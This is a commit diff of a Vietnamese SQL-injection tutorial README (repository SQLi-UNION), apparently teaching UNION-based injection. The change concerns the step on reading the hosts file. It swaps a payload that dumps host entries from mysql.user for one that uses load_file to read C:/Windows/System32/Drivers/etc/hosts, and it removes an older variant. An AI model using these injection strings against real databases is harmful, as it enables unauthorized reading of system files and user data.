

Before and after one commit to bluecrypt47/SQLi-UNION, a Markdown page: readme.md, the part around the change. Rendered like a GitHub page; pictures changed too: img/15.png.

```diff
--- a/readme.md
+++ b/readme.md
@@ -69,7 +69,5 @@ Mục lục:
 ![Hinh 14.](~/../img/14.png)
 
 3. File hosts
-`' UNION SELECT (SELECT group_concat(HOST) FROM mysql.user),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14  #`
+`' UNION SELECT load_file("C:/Windows/System32/Drivers/etc/hosts"),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
 ![Hinh 15.](~/../img/15.png)
-
-`' UNION SELECT load_file("Windows\System32\Drivers\etc\hosts"),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
```
